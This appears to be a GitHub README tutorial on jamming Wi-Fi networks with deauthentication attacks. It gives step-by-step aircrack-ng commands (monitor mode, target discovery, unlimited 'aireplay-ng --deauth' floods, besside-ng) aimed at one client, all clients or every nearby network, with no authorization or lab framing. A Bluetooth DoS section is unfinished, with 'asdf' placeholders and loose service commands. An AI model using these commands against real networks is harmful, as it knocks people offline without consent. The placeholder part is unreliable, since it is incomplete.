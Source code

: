 <h1 align="center">Network Jamming / Network Spoofing</h1>

## Deauth. attack  

The **Deauth** attack perform on Wi-Fi (802.11) network only. It won't affect those people who are using internet via Ethernet cable (IEEE 802.3) i.e. wired cable. The target of this attach have 3 types :  
- [x] Attack on **a particular client** of a particular Wi-Fi's network (specific client if have/know his mac addreess)
- [x] Attack on **all clients** of a particular Wi-Fi's network (if don't know any client's MAC address)
- [x] Attack on **all Wi-Fi** available networks/routers directly.

> But to attack on Ethernet cable using clients, the methods are : ARP Spoofing / ARP Poisoning (Man-in-the-Middle Attack), DHCP Starvation or Rogue DHCP Attack, Switch MAC Flooding (CAM Table Overflow). But these we won't learn here, or maybe we'll learn it later.

`~$` is local user.  
`~#` is root user.   




#### Step 1 : Setup for Attack
First we need to convert the 'wlan0' interface to 'wlan0mon' interface, basically we are do setup & enabling the Wi-Fi's monitoring mode to do attack. For this we use the following commands :  
```
sudo su
iwconfig
ifconfig wlan0
airmon-ng
iwconfig wlan0
// airmon-ng start wlan0
airmon-ng check kill (2 times) . . .
airmon-ng stop wlan0 . . .
iw wlan0 del
airmon-ng start wlan0mon
iwconfig
rfkill list


clear
exit
exit
```
Run the above commands one-by-one only.  
<br>


#### Step 2 : Searching your targeted Wi-Fi network/router
Now run the following commands :  
```
airodump-ng wlan0mon

- - -ctrl + C to stop
- - -Can close if done work
```
So, when it dispaly the required network then we can stop the process with 'ctrl + C' shortcut. But don't close this tab, it helps to copy network's channel no. & BSSID.  
<br>


#### Step 3 : Locking targeted Wi-Fi/router and Searching your targeted client
Now open new terminal tab and run the following commands :  
```
sudo su


airodump-ng wlan0mon --bssid "_" -c "_"
	(OR)
airodump-ng --bssid "_" -c "_" wlan0mon
	(OR)
airodump-ng -c_ -d "__BSS-ID__" wlan0mon


- - - - -Keep running, don't close
```
**Don't close it, keep running**. So, here we need to mentioned a particular Wi-Fi network's BSSID & channel no. And from this we are setting to attack on a particular Wi-Fi network. If want to attack all network then don't mention BSSID & channel no.
<br>


#### Step 4 : Attacking (on particular Client // on all Clients)
Now open new terminal tab and run the following commands :  
```
sudo


aireplay-ng --deauth 0 -a "___BSS-ID___" -c "__STATION__" wlan0mon
	(OR)
besside-ng -c "_" wlan0mon


- - - - -ctrl + C ----😁
```
Here, if we want to attack all then don't mention BSSID & station of any client. Also, here `--deauth 0` means unlimited attack and we can even change it to `10` or `100` also.  






---
---



## Bluetooth DOS attack

#### Step 1 : Bluetooth Enable (optional)
Check whether the Bluetooth is enabled or not. If not enabled then enable it and proceed to **next step**. But if the Bluetooth icon not appearing, or it's not enabling, then follow the below commands :   
```
~$ asdf
```
```
~# asdf
```

<br>

#### Step 2 :  
asdf










------
------
------
rfkill list all

	xxx	sudo apt-get update

sudo apt reinstall blueman

sudo apt reinstall bluetooth

/etc/init.d/bluetooth status

sudo /etc/init.d/bluetooth start



sudo systemctl list-unit-files --type=service

          to exit---> ctrl + C

sudo systemctl enable blueman-mechanism.service

sudo systemctl enable bluetooth.service

sudo systemctl list-unit-files --type=service

exit

			// https://youtu.be/w1MvrcBSNjw
